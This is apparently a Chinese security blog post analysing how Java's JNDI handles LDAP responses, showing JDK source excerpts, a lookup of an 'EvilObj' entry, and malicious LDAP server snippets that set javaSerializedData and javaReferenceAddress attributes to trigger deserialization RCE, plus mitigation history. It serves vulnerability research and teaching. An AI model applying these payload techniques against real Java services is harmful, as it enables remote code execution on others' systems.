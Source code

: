 ```yaml
---
title: JNDI with LDAP
tags:
  - Java
categories: notes
date: 2020-03-01 19:22:01
typora-root-url: ../../../source
---
```


## 0x00 前言

JNDI的SPI层除了RMI外，还可以跟LDAP交互。与RMI类似，LDAP也能同样返回一个Reference给JNDI的Naming Manager，本文将讲述JNDI使用ldap协议的两个攻击面XD

<!-- more -->

## 0x01 LDAP基础

关于LDAP的介绍，延伸阅读一下[这篇](https://www.cnblogs.com/wilburxu/p/9174353.html)

> LDAP can be used to store Java objects by using several special Java attributes. There are at least two ways a Java object can be represented in an LDAP directory:
>
> ● Using Java serialization
> 		o https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html
> ● Using JNDI References
> 		o https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html
>
> from https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

Java中的LDAP可以在属性值中存储相关的Java对象，可以存储如上两种对象，而相关的问题就是出现在这部分上。

后文用的LDAP Server参考的是[mbechler 实现的LDAPRefServer](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)，连接的客户端Client直接用JNDI的lookup完成，jdk版本jdk8u162

```java
Context ctx = new InitialContext();
ctx.lookup("ldap://127.0.0.1:1389/EvilObj");
ctx.close();
```

## 0x02 LDAP with JDNI References

JNDI发起ldap的lookup后，将有如下的调用流程，这里我们直接来关注，获得远程LDAP Server的Entry之后，Client这边是怎么做处理的

![image-20200301142213589](assets/jndi-with-ldap-20200301/image-20200301142213589.png)

跟进com/sun/jndi/ldap/Obj.java#decodeObject，按照该函数的注释来看，其主要功能是解码从LDAP Server来的对象，该对象可能是序列化的对象，也可能是一个Reference对象。关于序列化对象的处理，我们看后面一节。这里摘取了Reference的处理方式：

```java
static Object decodeObject(Attributes attrs)
    throws NamingException {
    Attribute attr;
    // Get codebase, which is used in all 3 cases.
    String[] codebases = getCodebases(attrs.get(JAVA_ATTRIBUTES[CODEBASE]));
    try {
        // ...
        attr = attrs.get(JAVA_ATTRIBUTES[OBJECT_CLASS]);// "objectClass"
        if (attr != null &&
            (attr.contains(JAVA_OBJECT_CLASSES[REF_OBJECT]) || // "javaNamingReference"
                attr.contains(JAVA_OBJECT_CLASSES_LOWER[REF_OBJECT]))) { // "javanamingreference"
            return decodeReference(attrs, codebases);
        }
      //...
```

如果LDAP Server返回的属性里包括了`objectClass`和`javaNamingReference`，将进入Reference的处理函数decodeReference上

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[CLASSNAME])) != null) {
    className = (String)attr.get();
} else {
    throw new InvalidAttributesException(JAVA_ATTRIBUTES[CLASSNAME] +
                " attribute is required");
}

if ((attr = attrs.get(JAVA_ATTRIBUTES[FACTORY])) != null) {
    factory = (String)attr.get();
}

Reference ref = new Reference(className, factory,
    (codebases != null? codebases[0] : null));
```

decodeReference再从属性中提取出`javaClassName`和`javaFactory`，最后将生成一个Reference。这里如果看过我前面的那篇[jndi-with-rmi](http://blog.0kami.cn/2020/02/09/jndi-with-rmi/)，可以看到其实这里生成的ref就是我们在RMI返回的那个ReferenceWrapper，后面这个ref将会传递给Naming Manager去处理，包括从codebase中获取class文件并载入。

而这里LDAP也类似，处理ref的对象是NamingManager的子类javax/naming/spi/DirectoryManager.java，因为跟RMI有点类似不具体分析了，最后同样由javax/naming/spi/NamingManager.java#getObjectFactoryFromReference来处理。

到这里，我们再来看mbechler 实现的LDAPRefServer就比较清楚了

![image-20200301144715061](assets/jndi-with-ldap-20200301/image-20200301144715061.png)

当其获取到LDAP连接时，将填充如上的几个属性及其对应的值，就是为了满足上面的条件而生成一个Reference对象。

## 0x03 LDAP with Serialized Object

JNDI对于属性中的序列化数据的处理一共有两个地方，我们先来顺着前面的JNDI Reference的思路说下去

#### 第一处：com/sun/jndi/ldap/Obj.java#decodeObject

在com/sun/jndi/ldap/Obj.java#decodeObject上还存在一个判断

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) {// “javaSerializedData”
    ClassLoader cl = helper.getURLClassLoader(codebases);
    return deserializeObject((byte[])attr.get(), cl);
}
```

如果在返回的属性中存在`javaSerializedData`，将继续调用`deserializeObject`函数，该函数主要就是调用常规的反序列化方式readObject对序列化数据进行还原，如下payload。

```java
@Override
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaSerializedData", serialized);
}
```

这里我们就不需要通过远程codebase的方式来达成RCE，当然首先本地环境上需要有反序列化利用链所依赖的库文件。

#### 第二处：com/sun/jndi/ldap/Obj.java#decodeReference

`decodeReference`函数在对普通的Reference还原的基础上，还可以进一步对RefAddress做还原处理，其中还原过程中，也调用了`deserializeObject`函数，这意味着我们通过满足RefAddress的方式，也可以达到上面第一种的效果。

具体代码太长了，这里我就说一下条件：

1. 第一个字符为分隔符
2. 第一个分隔符与第二个分隔符之间，表示Reference的position，为int类型
3. 第二个分隔符与第三个分隔符之间，表示type，类型
4. 第三个分隔符是双分隔符的形式，则进入反序列化的操作
5. 序列化数据用base64编码

满足上面的条件，构造一个类似的

```java
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serialized));
  entry.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
}
```

当然第二处只是一个锦上添花的步骤，我们可以直接用第一种方法，第二种在第一种不能用的情况下可以试试。

## 0x04 后续

自[jdk8u191-b02](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/rev/2db6890a9567#l1.33)版本后，新添加了`com.sun.jndi.ldap.object.trustURLCodebase`默认为false的限制，也就意味着远程codebase的Reference方式被限制死了，我们只能通过SerializedData的方法来达成利用。

我们来整理一下，关于jndi的相关安全更新

* JDK 6u132, JDK 7u122, JDK 8u113中添加了com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false。

  **导致jndi的rmi reference方式失效，但ldap的reference方式仍然可行**

* Oracle JDK 11.0.1、8u191、7u201、6u211之后 `com.sun.jndi.ldap.object.trustURLCodebase `属性的默认值被调整为false。

  **导致jndi的ldap reference方式失效，到这里为止，远程codebase的方式基本失效，除非认为设为true**

而在最新版的jdk8u上，jndi ldap的本地反序列化利用链[1](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l239)和[2](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l478)的方式仍然未失效，jndi rmi底层(JRMPListener)[StreamRemoteCall](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/sun/rmi/transport/StreamRemoteCall.java#l270)的本地利用方式仍未失效。

所以如果Reference的方式不行的时候，可以试试利用本地ClassPath里的反序列化利用链来达成RCE。

## 0x05 总结

JNDI和LDAP的结合，出现了2种利用方式，一是利用远程codebase的方式，二是利用本地ClassPath里的反序列化利用链。在最新版的jdk8u中，codebase的方式依赖`com.sun.jndi.ldap.object.trustURLCodebase`的值，而第二种方式仍未失效。

LDAP的使用方法除了JNDI的lookup，其他的库也会有相应的使用方法，如Spring的ldap，这里还可以继续深入下去，先挖个坑XD

最后，上面的两个ldap Server更新到了[github](https://github.com/wh1t3p1g/ysomap)上，自取XD